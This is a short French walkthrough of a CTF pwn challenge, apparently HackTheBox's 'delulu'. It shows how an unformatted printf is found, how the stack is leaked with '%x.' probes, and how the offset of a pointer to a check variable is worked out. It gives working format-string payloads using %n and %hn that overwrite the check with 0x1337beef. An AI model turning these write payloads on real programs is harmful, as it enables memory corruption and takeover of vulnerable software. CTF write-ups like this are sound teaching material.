


# Format string

On décompile avec Binary Ninja et on se rend compte qu'un printf n'est pas formaté + il faut modifier un check définit avant ce que l'on contrôle:



On cherche à écrire 0x1337beef dans l'addresse du check.

## Déterminer le $n et l'addresse du check = où écrire

Puis on tente de trouver le n. Le check= var38

```bash
>> 
[!] Checking.. eb31dbb0.0.96714887.10.7fffffff.1337babe.eb31fcd0.252e7825.2e78252e.78252e78.
[-] ALERT ALERT ALERT ALERT

┌─[night@night-20b7s2ex01]─[~/htb/pwn/delulu]
└──╼ 5 fichiers, 36Kb)─$ python -c "print('%x.'*20)" | ./delulu 
```

Ici, comme on a déclaré dans l'ordre, on a d'abord var48:

```c
int64_t  var_48 = 0x1337babe; // fp - 48
int64_t* var_40 = &var_48:    // fp - 40
int64_t  var_38;              // fp - 38 (variable lue puis print)
...
printf(&var_38);
```

Que l'on lit avec un **frame offset de 6** (1337babe). 

Or **ce qui suit** est le pointeur `int *var40 = &var48`, donc **l'addresse de var48 est ici située dans la variable n+1**
On lit donc l'addresse de var_38 à modifier AKA le check à `eb31fcd0` = **$7%s**


On peut aussi lancer **bf_fmt.py**.

## Exploit 

Rappel: 0x1337beef = 0x1337 (high) "+" 0xbeef (low)

On écrit donc `1337beef` à l'addresse récupérée par `$7%n`:

```bash
rax2 0x1337beef
322420463
```

```c
%322420463x%7$n
```

Ou encore plus simplement modifier les lows bytes du check `babe` en `beef`:

```bash
rax2 0xbeef
48879
```

```c
%48879d%7$hn
```


